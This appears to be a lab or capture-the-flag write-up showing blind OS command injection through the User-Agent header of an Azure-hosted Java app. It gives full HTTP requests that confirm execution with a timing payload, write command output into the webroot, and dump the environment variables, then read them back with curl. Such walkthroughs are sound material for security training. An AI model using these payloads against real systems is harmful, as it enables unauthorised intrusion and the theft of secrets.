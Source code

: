 - In the following HTTP Request we can start fuzzing both the POST data and the Headers for possible vulnerabilities.
- Specifically, we can detect through trial & error an OS command execution vulnerability in the `User-Agent` Header using the `tcpping -n 6 127.0.0.1` payload and calculating the Response delay (6 seconds).
```http
POST /main?target=changePassword&callType=ajaxCall HTTP/1.1
Host: as-hsvfakpijr2652980.azurewebsites.net
Cookie: JSESSIONID=6D59090D63A7E537AB7B154FA5EC37A2; ARRAffinity=2c0f3b14764e60e48a10c5232fc6e5582e749a83ca4a94305f601c8b024f31e8; ARRAffinitySameSite=2c0f3b14764e60e48a10c5232fc6e5582e749a83ca4a94305f601c8b024f31e8
Content-Length: 23
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Content-Type: application/x-www-form-urlencoded
Targetforcommands: getCommandOutput
Sec-Ch-Ua-Mobile: ?0
User-Agent: tcpping -n 6 127.0.0.1
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Origin: https://as-hsvfakpijr2652980.azurewebsites.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://as-hsvfakpijr2652980.azurewebsites.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

inputUser=test@test.com
```

- Since we have a Blind RCE, we cannot see the output of the commands that we execute. We will need to redirect our commands to a file which will be readable from the `wwwroot` folder. We know that the default root directory in IIS is the `C:\inetpub\wwwroot`. Since we have a Java application, there is an additional folder called `ROOT` so we will need to redirect the command output to `C:\inetpub\wwwroot\ROOT\<FILE>`.
- We can test that it works using the following HTTP Request.
```http
POST /main?target=changePassword&callType=ajaxCall HTTP/1.1
Host: as-hsvfakpijr2652980.azurewebsites.net
Cookie: JSESSIONID=6D59090D63A7E537AB7B154FA5EC37A2; ARRAffinity=2c0f3b14764e60e48a10c5232fc6e5582e749a83ca4a94305f601c8b024f31e8; ARRAffinitySameSite=2c0f3b14764e60e48a10c5232fc6e5582e749a83ca4a94305f601c8b024f31e8
Content-Length: 23
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Content-Type: application/x-www-form-urlencoded
Targetforcommands: getCommandOutput
Sec-Ch-Ua-Mobile: ?0
User-Agent: whoami > C:\home\site\wwwroot\webapps\ROOT\whoami.txt
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Origin: https://as-hsvfakpijr2652980.azurewebsites.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://as-hsvfakpijr2652980.azurewebsites.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

inputUser=test@test.com
```

- We can access the file at `https://as-hsvfakpijr2652980.azurewebsites.net/whoami.txt` where we get the following output: `iis apppool\as-hsvfakpijr2652980`

- We can now extract the environment variables.
```http
POST /main?target=changePassword&callType=ajaxCall HTTP/1.1
Host: as-hsvfakpijr2652980.azurewebsites.net
Cookie: JSESSIONID=6D59090D63A7E537AB7B154FA5EC37A2; ARRAffinity=2c0f3b14764e60e48a10c5232fc6e5582e749a83ca4a94305f601c8b024f31e8; ARRAffinitySameSite=2c0f3b14764e60e48a10c5232fc6e5582e749a83ca4a94305f601c8b024f31e8
Content-Length: 23
Sec-Ch-Ua: "Not(A:Brand";v="24", "Chromium";v="122"
Content-Type: application/x-www-form-urlencoded
Targetforcommands: getCommandOutput
Sec-Ch-Ua-Mobile: ?0
User-Agent: set > C:\home\site\wwwroot\webapps\ROOT\envar.txt
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Origin: https://as-hsvfakpijr2652980.azurewebsites.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://as-hsvfakpijr2652980.azurewebsites.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

inputUser=test@test.com
```

- We can now view all the Environment Variables.
`curl https://as-hsvfakpijr2652980.azurewebsites.net/envar.txt`
